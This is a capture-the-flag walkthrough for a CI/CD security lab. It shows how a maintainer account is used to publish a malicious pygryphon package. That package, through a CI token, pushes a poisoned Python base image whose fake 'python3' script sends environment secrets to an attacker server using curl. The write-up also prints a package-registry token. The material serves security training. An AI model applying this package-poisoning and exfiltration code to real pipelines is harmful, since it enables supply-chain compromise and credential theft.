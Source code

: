[![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)
[![CICD-SEC-6 Insufficient Credential Hygiene](https://img.shields.io/badge/CICD--SEC--6-Insufficient%20Credential%20Hygiene-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/insufficient-credential-hygiene/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Let's explore what we have when signing in to the compromised GitLab user account:

We are the maintainers of *pygryphon* package. There are also public projects: *nest-of-gold* and *awesome-app* to which we have read-only access.

As the instructions of this challenge hint, let's try to see if we can find any reference to *Flag11*.

A simple search tells us it is referenced by the *nest-of-gold* project 


![grpyhon](../images/gryphon-1.png "grpyhon")

We can see that *Flag11* is used in a pipeline that ships a container used in production.

Browsing to the pipeline settings, we discover that a scheduling is set, and that a user named "gryphon" is executing the pipeline.

If we keep looking, we can discover that the same user is executing the *awesome-app* project's pipeline.

Diving into *awesome-app*, it is using the pygrphon package as a dependency! We can tell it by the *requirments.txt* file:

```
--extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
```

This means we can try and influence the *awesome-app* pipeline by uploading a new malicious Python package of *pygryphon*. We'll get back to it in a moment.

Our end goal is in the *nest-of-gold* project, how can we influence its pipeline?
  
Let's have a look at the Dockerfile inside *nest-of-gold*. We can see it's dependent on the python:3.8 docker image stored in the *nest-of-gold* container registry, and not the offical registry.
  
```docker
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```
  
Here comes the tricky part 🥸 let's create a malicious *pygryphon* package that pushes a malicious python3.8 docker base image to the *nest-of-gold* container registry.


In the *awesome-app* pipeline we can see a PAT being used named *TOKEN*.

`docker login -u gryphon -p $TOKEN $CI_REGISTRY`

Let's try to steal this token and use it against the *nest-of-gold* container registry.     
In this package, we create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
Modified *greet.py* content:

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env | grep FLAG11 | curl -X POST --data-binary @- https://ATTACKER[.]SERVER/"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact 
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    # Grant our script execution permission    
    run('chmod +x python3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')    
    return "Hello, " + name
```

Build and upload this package to the gryphon package registry (after configuring GitLab as the package registry).

Conveniently you may use these files to build the package:  

[.pypirc](/tests/data/pygryphon./.pypirc)

[pyproject.toml](/tests/data/pygryphon./pyproject.toml)


```sh
pipenv run python3 -m build [path_to_package]
pipenv run python3 -m twine upload -r gitlab
```

Now prepare a cup of coffe ☕️ wait for the two pipeline scheduling to take place, and expect the flag to arrive at your http server.
